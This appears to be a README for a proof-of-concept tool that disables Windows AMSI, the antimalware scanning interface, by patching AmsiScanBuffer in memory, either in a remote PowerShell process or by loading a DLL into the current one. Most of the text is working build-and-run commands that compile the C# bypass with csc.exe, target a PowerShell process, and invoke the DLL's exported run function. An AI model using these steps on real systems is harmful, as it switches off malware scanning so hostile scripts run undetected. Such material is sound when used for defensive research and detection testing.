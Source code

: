This PoC shows how to use [this](https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/) method to disable AMSI in a remote process. Avi's write-up explains how to disable AMSI by patching the AMSIScanBuffer method in memory, in the current process, by loading a DLL. A working example of that DLL code has been included in the repository as well.

To disable AMSI in a remote PowerShell process, compile remote_process_amsi_bypass.cs:

```
PS> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:remote_process_amsi_bypass.exe .\remote_process_amsi_bypass.cs
```

Then open a single PowerShell instance. The PoC is hard coded to disable AMSI in a single PowerShell process (see code below):
```
Process.GetProcessesByName("powershell")[0]
```

Then run remote_process_amsi_bypass.exe from cmd.exe:
```
C:\Users\example\Desktop>remote_process_amsi_bypass.exe
```

AMSI should now be disabled in the PowerShell instance.

To disable AMSI in PowerShell by loading a DLL, compile amsi_bypass_dll.cs:
```
PS> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library /unsafe /out:amsi_bypass.dll .\amsi_bypass_dll.cs
```

Then, from within PowerShell, load the DLL and run its exported function:
```
PS> [System.Reflection.Assembly]::LoadFile('C:\Users\example\Desktop\amsi_bypass.dll')
PS> [amsibypass.amsibypass]::run()
